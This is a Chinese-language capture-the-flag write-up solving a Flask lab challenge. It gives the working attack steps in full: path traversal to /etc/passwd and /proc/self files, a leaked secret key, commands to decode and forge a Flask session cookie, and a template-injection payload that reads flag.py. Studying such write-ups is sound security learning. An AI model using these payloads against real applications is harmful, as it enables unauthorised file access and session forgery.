









## flag
`n1book{afr_3_solved}`

## 思路
1. 访问环境，任意输入ls

2. 网页将我们的输入值ls打印出来，可能存在模板注入

3. 进一步进入article界面，测试flag，模板注入{{1+2}}

4. 注意到输入为{{1+2}}时给出了路径，开始尝试路径穿越`../../../../../../../etc/passwd`，获得passwd文件值

5. 利用`/proc/self/environ`获取当前程序的环境变量，猜测flag存在于`/home/sssssserver/flag`，但是还是显示无权限

6. 利用`/proc/self/cmdline`获取当前程序命令行记录，发现`python server.py`命令，典型的使用了flask或Django

7. 进一步利用`/proc/self/cwd`获取当前进程目录，通过`/proc/self/cwd/server.py`得到源码[server.py](./scripts/afr3_server.py)。在server.py中提到了`key.py`和`flag.py`，其内容如下。
- key.py **#!/usr/bin/python key = 'Drmhze6EPcv0fN_81Bj-nA'**
- flag.py 由于server.py对带flag字符的参数过滤，所以没有得到文件内容

8. 到这里时借用**Wilson Sumanang, Alexandre ZANNI**大佬的[flask session hack](./scripts/flask_session_cookie_hack.py)脚本。
- 解密代码模式
*python flask_session_cookie_hack.py decode -c {cookie} -s {secert_key}*
- 解密代码详情
python .\flask_session_cookie_hack.py decode -c eyJuMWNvZGUiOm51bGx9.X9y69A.qP_bm03_RkBB4b3Yj8ldjZUs4Oc -s Drmhze6EPcv0fN_81Bj-nA

9. 然后把`n1code`换成读文件的代码，加密回去
**{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[40](\'flag.py\').read()}}'}**
- 加密代码模式
*python flask_session_cookie_hack.py encode -t {} -s {secert_key}*
- 加密代码详情
*python .\flask_session_cookie_hack.py encode -t "{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[40](\'flag.py\').read()}}'}" -s Drmhze6EPcv0fN_81Bj-nA*

10. 得到cookie值
**eyJuMWNvZGUiOiJ7eycnLl9fY2xhc3NfXy5fX21yb19fWzJdLl9fc3ViY2xhc3Nlc19fKClbNDBdKCdmbGFnLnB5JykucmVhZCgpfX0ifQ.X9zE8g.UesZtahYLbFrdvGIKzIZzR2LZio**

11. 获得flag
**n1book{afr_3_solved}**

## 总结
这道题究极费时费力
- 使用了cookie和secert_key加密与解密
- 修改高权限cookie实现越权
- 拿到flag